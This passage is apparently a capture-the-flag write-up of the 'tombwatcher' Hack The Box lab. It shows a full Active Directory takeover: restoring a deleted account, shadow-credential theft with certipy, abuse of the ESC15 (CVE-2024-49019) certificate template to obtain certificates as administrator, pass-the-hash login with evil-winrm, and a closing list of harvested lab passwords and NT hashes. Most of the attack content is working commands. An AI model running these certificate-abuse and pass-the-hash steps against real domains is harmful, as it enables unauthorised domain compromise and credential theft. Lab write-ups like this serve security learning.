

Restore the `cert_admin `account with PowerShell

```Powershell
Restore-ADObject -Identity "938182c3-bf0b-410a-9aaa-45c8e1a02ebf"
```

Confirm by running the previous `Get-ADObject` command without the `IncludeDeletedObjects` flag. 

Using shadow credentials technique to retrieve cert_admin NT Hash.

```
certipy shadow auto -u john@tombwatcher.htb -p 'P@ss12345$' -account cert_admin -dc-ip 10.129.51.60
```

`KRB_AP_ERR_SKEW(Clock skew too great)`

Trying on host after ntpdate 



- cert_admin NT hash: f87ebf0febd9c4095c68a88928755773

```
certipy find -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.129.51.60 -vulnerable
```

- Error: Kerberos authentication failed: ........'invalidCredentials'

- Checking status of account since may have been disabled again but it seems up.
- Trying to debug with other flags/hash systax (lm:nt...) but hits me with the same error every time...
- This command is used to identify vulnerable certificate templates and the output suggests that the WebServer template is potentially vulnerable to ESC15, CVE-2024-49019.

```
certipy req -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.129.51.60 -ca tombwatcher-CA-1 -template WebServer -upn 'administrator@tombwatcher.htb' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500' -application-policies 'Client Authentication'
```

- Enabled the account again and worked, maybe that was also the problem before, even though checked it being enabled.



- Saved cert as: `administrator.pfx`

```
certipy auth -pfx administrator.pfx -dc-ip 10.129.51.60
```

`[-] Certificate is not valid for client authentication`

Trying to get a cerificate that can generate other certificates instead.

```
certipy req -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.129.51.60 -ca tombwatcher-CA-1 -template WebServer -application-policies 'Certificate Request Agent'
```



Abusing the certificate to get another certificate as administrator

```
certipy req -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.129.51.60 -ca tombwatcher-CA-1 -template User -pfx -on-behalf-of 'tombwatcher\administrator'
```



```
certipy auth -pfx administrator.pfx -dc-ip 10.129.51.60
```



- Got the NTLM hash: `aad3b435b51404eeaad3b435b51404ee:f61db423bebe3328d33af26741afe5fc `

```
evil-winrm -i dc01 -u administrator -H f61db423bebe3328d33af26741afe5fc
```

```
whoami; ipconfig; type C:\Users\Administrator\Desktop\root.txt
```



---
----
#### Post testing

*Note: For every kerberos related connection/command I used the host and not the kali VM since I was having problems to sync in with DC. Thats why on those moves the screenshots have a different look that the overall test from Kali VM. Same with hashcat for cracking.*

##### Credentials Harvested: 7

Assumed Compromise:
```User
henry
```
```Password
H3nry_987TGV!
```

---
```User
Alfred
```
```Password
basketball
```

---
```Computer
ansible_dev$
```
```NT
cb3161cb2c9d84b58ba3014f55040d75
```

---
```User
sam
```
```Password
P@ss1234
```

---
```User
john
```
```Password
P@ss12345$
```

---
```User
cert_admin
```
```NT
f87ebf0febd9c4095c68a88928755773
```

---
```User
administrator
```
```NT
f61db423bebe3328d33af26741afe5fc
```

##### Resources:

- targetedkerberoast: https://github.com/ShutdownRepo/targetedKerberoast
- WriteOwner Abuse: https://www.hackingarticles.in/abusing-ad-dacl-writeowner/
- Hashcat modes: https://hashcat.net/wiki/doku.php?id=example_hashes
- AddSelf Abuse: https://www.hackingarticles.in/addself-active-directory-abuse/
- ldap_shell: https://github.com/PShlyundin/ldap_shell
- gMSADumper: https://github.com/micahvandeusen/gMSADumper
- pth-toolkit: https://github.com/byt3bl33d3r/pth-toolkit
- ForceChangePassword Abuse: https://www.hackingarticles.in/forcechangepassword-active-directory-abuse/
- BloodyAD: https://github.com/CravateRouge/bloodyAD
- winPEAS: https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1
- rusthound-ce: https://github.com/g0h4n/RustHound-CE/releases/tag/v2.5.2
- Certipy: https://github.com/ly4k/Certipy

